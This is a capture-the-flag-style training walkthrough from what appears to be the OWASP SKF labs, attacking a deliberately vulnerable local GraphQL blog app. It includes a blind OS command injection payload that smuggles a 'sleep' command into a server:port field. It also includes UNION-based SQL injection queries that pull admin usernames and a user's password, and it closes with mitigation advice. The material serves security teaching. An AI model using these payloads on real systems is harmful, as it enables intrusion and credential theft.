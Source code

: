 # GraphQL Injections

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-injections
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-injections
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This lab shows that GraphQL is not a silver bullet to any of the injection vulnerabilities.

We will look at two of the most common ones:

- OS Command Injection
- Sql Injection

We still see the blog that we should be familiar by now.

Let's login with: admin/admin

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/2.png)

If you run your DirBuster against it or just manually try to guess few of the rountes you will notice the new `/admin` section of the web app.

```
http://0.0.0.0:5000/admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/3.png)

There we have two functionalities:

- Check SQL Server Status
- Query User detiails

Both of them look suspicious, so play around and understand what they actually do.

Hint: you can also use what you have learned from the Introspection lab to understand the queries and mutations in the admin part ;)

## Exploitation

Your gut feeling is right and the _Check SQL Server Status_ should be vulnerable to _OS Command Injection_ and _Query User detiails_ should be vulnerable to _SQL injection_ attacks.

Let's get it on!

### OS Command Injection

The _Check SQL Server Status_ form has one input field where a server and a port are expected.

Go about and try check if some of the well known SQL Server ports are open on the server.

Probablly your first try was MySQL 3306 - 127.0.0.1:3306. Play around with few other ports and IPs and observe the _Status codes_ we receive as results.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/4.png)

Now go ahead and try to execute some other system commands, append, pipe, ...

Apparently our input is being passed to a system command which gets executed and we get response code of it. By looking in the code we can see it is passed to a `os.system()` call.

This makes it a bit harder as we don't see the actual output of the command but we don't need that... enter _**Blind OS Command Injection**_

How about we try to a valid command that time effective and we can observe that... kind of an oracle, a Time Oracle.

Let's try: `127.0.0.1:3306; sleep 5`

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/5.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/6.png)

As you have observed, the applciation took additional extra 5 seconds to respond, meaning our `sleep` command got executed. w00t, w00t!

Now, it' up to you to come up with scenario how to further abuse this.

### SQL Injection

Staying on the same `/admin` we also see _Query User detiails_ functionality which allowes an Administrator to get information about users by providing `username` values.

Go aronud find locate the GraphQL query that executes this transaction.

Now try to fetch some information for valid or invalid users. How about trying some SQL Injection payloads? :)

```
Example:
' UNION SELECT uuid, username FROM users --")
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/7.png)

By now we are aboslutly sure that this is an SQL Injection point and it is pretty that we are dealing with UNION style SQL Injection. Next up, let's try to find the other blog admins:

```
{getUser(username:"' UNION SELECT uuid, username, null, null FROM users WHERE isadmin = true --) {
  id
  username
}}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/8.png)

Lets try to get the password of some user:

```
{getUser(username:"' UNION SELECT uuid, username, password, null FROM users WHERE username = 'johndoe'  --) {
  id
  username
}}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/9.png)

We face few hurdles here:

- The query only returns one row (the first row)
- We cannot see the `password` value as our GraphQL `UserObject` model excludes the `password` column/field

  ```
  class UserObject(SQLAlchemyObjectType):
   class Meta:
       model = User
       exclude_fields = ('password') #this hides the password in the query for the Users
       filter_fields = {
            'username': ['exact', 'icontains', 'istartswith']
        }
       interfaces = (graphene.relay.Node, )
  ```

This means we need to get the password out from the UNION SELECT in another variable that is passed back.

The laziest approach, if our target is to get the password, is to return in all fields:

```
{getUser(username:"' UNION SELECT password, password, password, password FROM users WHERE username = 'johndoe'  --") {
  id
  username

}}
```
![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Injections/10.png)

w00t w00t!

What else can you!?

## Solution

### OS Command Injection

By know you fully understand that GraphQL does not handle input validation or santization for you. It actually has nothing to do with it. So, fixing the code in this lab does not differ to any of your previous practices on fixing code for OS Command Line injection.

### SQL Injection

SQL Injections have been present and known as vulnerability for such a long time which means that the mitigations are known, documented and well explained. Mitigating against SQL Injections when it comes to GraphQL powered applications are the same as for any other technology. In this particular project we use SQLAlchemy as ORM and graphane_sqlalchemy implemetation which is one common use case. However, as can be seen in our example mistakes can be made if we concatinate unsanitized, user provided string input to our SQLAlchemy queries.

The solution?

- Sanitize the input
- Use parameterized queries
- Use SQLAlchemy as described in documentation

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
